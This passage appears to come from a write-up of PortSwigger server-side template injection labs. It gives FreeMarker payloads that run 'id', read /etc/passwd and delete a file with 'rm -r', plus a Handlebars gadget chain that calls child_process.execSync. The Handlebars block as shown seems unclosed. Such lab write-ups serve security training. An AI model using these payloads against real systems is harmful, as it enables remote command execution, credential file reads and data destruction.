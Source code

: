 ![Lab3](https://github.com/Sec0gh/Portswigger-Labs/blob/main/Server-side%20template%20injection%20Labs/images/Lab3.png)

![freemarker_lab3](https://github.com/Sec0gh/Portswigger-Labs/blob/main/Server-side%20template%20injection%20Labs/images/freemarker_lab3.png)

- from the error message, i have known it is a `freemarker` template.

```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("cat /etc/passwd")}
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("ls /home/carlos")}
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm -r /home/carlos/morale.txt")}
```
---------------------------------------------------------------------

### Lab4: SSTI in an unknown language with a documented exploit

At the first when it tried this payload `{{7 * 7}}`, I got this error: 

![handlebars_lab4](https://github.com/Sec0gh/Portswigger-Labs/blob/main/Server-side%20template%20injection%20Labs/images/handlebars_lab4.png)

- i did some searches then i knew it is a `Handlebars` template and we can execute some commands through this code:
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
      {{this.push "return require('child_process').execSync('inject your command here');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
```